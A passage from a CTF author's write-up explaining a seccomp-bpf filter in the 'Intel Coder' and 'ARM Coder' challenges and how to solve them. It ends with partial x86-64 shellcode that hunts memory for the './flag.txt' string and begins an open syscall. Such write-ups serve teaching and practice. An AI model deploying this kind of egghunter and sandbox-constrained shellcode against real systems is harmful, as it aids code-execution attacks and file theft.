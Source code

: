 The first two lines check the architecture of the running binary (presumably
because the system call numbers are architecture-dependent).  The filter then
loads the system call number to determine the behavior for each syscall.  Lines
0004 through 0008 are syscalls that are allowed unconditionally.  Line 0009
ensures that anything but the already-allowed syscalls or `open()` results in
killing the process.

Lines 0010-0017 check the arguments passed to `open()`.  Since the BPF can only
compare 32 bits at a time, the 64-bit registers are split in two with shifts.
The first few lines ensure that the filename string (`args[0]`) is a pointer
with value `0x56478bd01428`.  Of course, due to ASLR, you'll find that this
value varies with each execution of the program, so no hard coding your pointer
values here!  Finally, it checks that the second argument (`args[1]`) to
`open()` is `0x0`, which corresponds to `O_RDONLY`.  (No opening the flag for
writing!)

`seccomp-tools` really makes this so much easier than manual reversing would be.

### Solving Intel & ARM Coder ###

The solutions for both Intel Coder and ARM Coder are very similar.  First, let's
determine the steps we need to undertake:

1. Locate fhe `./flag.txt` string that was used in the seccomp-bpf filter.
2. Open `./flag.txt`.
3. Read the file and send the contents to the player.  (`sendfile()` on Intel,
   `read()` and `write()` on ARM)

In order to not be a *total* jerk in these challenges, I ensured that one of the
registers contained a value *somewhere* in the `.text` section of the binary, to
make it somewhat easier to hunt for the `./flag.txt` string.  (This was actually
always the address of the function that executed the player shellcode.)
Consequently, finding the string should have been trivial using the commonly
known **egghunter** techniques.

At this point, it's basically just a straightforward shellcode to `open()` the
file and send its contents.  The entirety of my example solution for Intel Coder
is:

    BITS 64

    ; hunt for string based on rdx
    hunt:
    add rdx, 0x4
    mov rax, 0x742e67616c662f2e   ; ./flag.t
    cmp rax, [rdx]
    jne hunt

    xor rax, rax
    mov rdi, rdx              ; path
    xor rax, rax
    mov al, 2                 ; rax for SYS_open
    xor rdx, rdx              ; mode
    xor rsi, rsi              ; flags
    syscall
